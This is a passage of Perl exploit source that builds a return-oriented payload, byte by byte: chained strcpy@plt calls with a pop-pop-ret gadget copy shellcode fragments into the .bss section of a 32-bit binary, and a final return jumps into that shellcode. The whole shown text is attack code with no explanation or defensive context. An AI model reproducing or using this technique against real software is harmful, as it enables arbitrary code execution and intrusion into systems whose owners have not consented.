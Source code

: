 ```perl
	$payload .= pack('L', 0x080482f6);

	# \x68
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+12);
	$payload .= pack('L', 0x080482f6);

	# \x2f
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+13);
	$payload .= pack('L', 0x08048134);

	# \x62
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+14);
	$payload .= pack('L', 0x08048137);

	# \x69\x6e
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+15);
	$payload .= pack('L', 0x0804813d);

	# \x89
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+17);
	$payload .= pack('L', 0x08048333);

	# \xe3
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+18);
	$payload .= pack('L', 0x080481aa);

	# \xcd
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+19);
	$payload .= pack('L', 0x0804846a);

	# \x80
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+20);
	$payload .= pack('L', 0x0804803d);

	# Jump on your shellcode !
	$payload .= pack('L', $bss);

	print $payload;
```

